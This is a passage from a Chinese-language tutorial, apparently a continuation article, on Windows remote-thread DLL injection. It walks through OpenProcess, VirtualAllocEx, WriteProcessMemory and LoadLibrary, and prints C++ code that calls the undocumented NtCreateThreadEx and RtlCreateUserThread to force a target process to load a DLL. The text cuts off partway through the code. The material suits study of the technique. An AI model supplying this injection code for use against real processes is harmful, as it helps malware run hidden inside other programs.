 ```
        return NULL;
    }
    functypeNtCreateThreadEx funcNtCreateThreadEx = (functypeNtCreateThreadEx)GetProcAddress(hNtDllModule, "NtCreateThreadEx");
    if (!funcNtCreateThreadEx)
    {
        return NULL;
    }
    funcNtCreateThreadEx(&hRemoteThread, GENERIC_ALL, NULL, hProcess, (LPTHREAD_START_ROUTINE)lpBaseAddress, lpSpace, FALSE, NULL, NULL, NULL, NULL);
    return hRemoteThread;
}
```

这里再稍微说下，为什么用 NtCreateThreadEx 而不用 NtCreateThread，我们之前也说了，NtCreateThread 太过接近底层，会导致有可能在不同版本间有差异，而带 Ex 的函数版本，一般来说是不带 Ex 的函数的升级版本，对无 Ex 版本的函数做了某些扩展，所以相对来说，我们用 Ex 版本会更好一些

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAeyUGEhrRQ3PrqYt5W9LqGQZpQ1OiaIayrfDFf8FVhz9j4TAYHJGauwaH3vVH3tIib7Z88ns3QDXDQ/640?wx_fmt=png)

可以看到，NtCreateThreadEx 比 NtCreateThread 多了一些扩展参数，由于没有相关文档，直接用 unknown 来代替就行

三、

**_实现_**

由于本篇文章是接着上一篇文章来说的，所以其实除了替换 API 外，其他部分的思路和代码都和上篇文章中讲的差不多，我们再来捋一遍思路：

1.  OpenProcess 获取目标进程的读写权限
    
2.  VirtualAllocEx 在目标进程中申请空间
    
3.  WriteProcessMemory 将想要注入的 Dll 的地址写入目标进程的内存
    
4.  GetProcAddress 获取 LoadLibrary 的地址
    
5.  利用 RtlCreateUserThread 或 NtCreateThreadEx 迫使目标进程执行 LoadLibrary 将 dll 加载进入内存
    

这里给出一个可用的注入代码：

```
// CreateRemoteThreadPro.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include <iostream>
using namespace std;
#include <windows.h>
#include <tchar.h>
HANDLE RtlCreateUserThread(
    HANDLE hProcess,
    LPVOID lpBaseAddress,
    LPVOID lpSpace
)
{
    //The prototype of RtlCreateUserThread from undocumented.ntinternals.com
    typedef DWORD(WINAPI* functypeRtlCreateUserThread)(
        HANDLE      ProcessHandle,
        PSECURITY_DESCRIPTOR  SecurityDescriptor,
        BOOL      CreateSuspended,
        ULONG     StackZeroBits,
        PULONG     StackReserved,
        PULONG     StackCommit,
        LPVOID     StartAddress,
        LPVOID     StartParameter,
        HANDLE      ThreadHandle,
        LPVOID     ClientID
        );
    //Get handle for ntdll which contains RtlCreateUserThread
    HANDLE hRemoteThread = NULL;
    HMODULE hNtDllModule = GetModuleHandle(_T("ntdll.dll"));
```